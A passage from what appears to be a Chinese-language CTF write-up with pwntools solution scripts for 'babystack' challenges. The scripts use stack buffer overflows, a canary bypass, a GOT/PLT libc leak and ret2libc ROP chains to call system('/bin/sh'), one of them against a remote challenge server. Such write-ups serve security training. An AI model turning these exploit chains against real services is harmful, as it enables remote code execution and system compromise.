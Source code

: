 ```python
flag_ptr = p64(0x400787)
pop_rdi = p64(0x4009a3)
ret = p64(0x400616)
libc_system_ptr = p64(0x7ffff7e1e290)

payload = 104*b'A'
payload += p64(canary)
payload += 8*b'\x42'
payload += ret
payload += pop_rdi
payload += name_loc
payload += libc_system_ptr

sh.recvuntil(b'I\'ll give you a second chance:')
sh.sendline(payload)
sh.interactive()
```

## babystack_level2

**注意 ASLR ！！！！！**

这题的一个小坑点是服务器上的 libc 版本和本地可能是不一样的。要先处理一番获得服务器的 libc 版本是 2.23 ，然后再计算有关的内存偏移。

```python
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "debug"

pop_rdi_ret = p64(0x400803)
ret = p64(0x400546)
puts_plt_addr = p64(0x400560)
main_addr = p64(0x400787)
puts_got_addr = p64(0x601098)
flag_addr = p64(0x400687)
strcmp_addr = p64(0x400580)

offset = 112*b'X'
elf = ELF('./babystack_level2')
libc = elf.libc

libc_finder = offset + 8*b'A' + pop_rdi_ret + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['main'])

sh = remote('nc.thuctf.redbud.info', 31790)
sh.recvuntil(b'wish:\n')
sh.sendline(libc_finder)
sh.recvuntil(b'Bye\n')
recvsh = sh.recv(6)
puts_leak = u64(recvsh + b'\x00\x00')
log.success(f'PUTS: {hex(puts_leak)}')

real_system_addr = puts_leak - 0x2A300
real_sh_addr = puts_leak - 0x6F6A0 + 0x18CE57

payload = offset + 8*b'A' + ret + pop_rdi_ret
payload += p64(real_sh_addr)
payload += p64(real_system_addr)

sh.recvuntil(b'2022\n')
sh.recvuntil(b'wish:\n')
sh.sendline(payload)

```